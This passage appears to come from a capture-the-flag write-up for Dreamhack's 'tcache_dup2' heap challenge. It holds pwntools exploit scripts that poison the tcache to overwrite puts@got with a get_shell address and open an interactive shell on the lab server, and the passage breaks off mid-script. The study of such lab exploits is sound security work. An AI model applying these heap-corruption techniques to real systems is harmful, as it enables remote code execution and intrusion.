 ```
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> puts@got
# tc_idx = 2
# chunk : ptr[1]
puts_got = elf.got['puts']
modify(1, 0x10, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

<br>

## **ex_wrong1.py**

```py
from pwn import *

p = remote('host3.dreamhack.games', 17171)
e = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
```